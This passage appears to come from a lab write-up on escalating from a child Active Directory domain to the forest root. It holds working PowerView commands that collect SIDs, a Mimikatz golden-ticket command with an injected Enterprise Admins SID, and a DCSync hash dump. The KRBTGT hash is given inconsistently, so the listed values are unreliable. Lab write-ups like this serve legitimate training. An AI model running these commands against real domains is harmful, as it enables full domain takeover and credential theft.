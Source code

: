 ```
PS C:\Windows\Temp> Import-Module ./PowerView.ps1
PS C:\Windows\Temp> Get-DomainSID
S-1-5-21-2241985869-2159962460-1278545866
```

- Obtaining Enterprise Admins Group's SID using Get-DomainGroup

```
Get-DomainGroup -Domain trusted.vl -Identity "Enterprise Admins" | select distinguishedname,objectsid
```

```
S-1-5-21-3576695518-347000760-3731839591-519
```

<img src="attachments/e04b774c35ebe71ea91df9536ae891b1.png" />


At this point, we have gathered the following data points:

- The KRBTGT hash for the child domain: `7a03c565c68c6fac5f8913fab576ebd`
- The SID for the child domain: `S-1-5-21-2241985869-2159962460-1278545866`
- The name of a target user in the child domain : `Administrator`
- The FQDN of the child domain: `lab.trusted.vl`
- The SID of the Enterprise Admins group of the root domain: `S-1-5-21-3576695518-347000760-3731839591-519`


We generated a golden ticket using the information we had with Mimikatz.

```
kerberos::golden /user:hacker /domain:lab.trusted.vl /sid:S-1-5-21-2241985869-2159962460-1278545866 /krbtgt:c7a03c565c68c6fac5f8913fab576ebd /sids:S-1-5-21-3576695518-347000760-3731839591-519 /ptt
```

<img src="attachments/8f8bb9688c9f65ecf6423bb7b7f58610.png" />

We were then able to DCSync and dump the hashes of the main domain.

```
lsadump::dcsync /domain:trusted.vl /dc:trusteddc.trusted.vl /all 
```
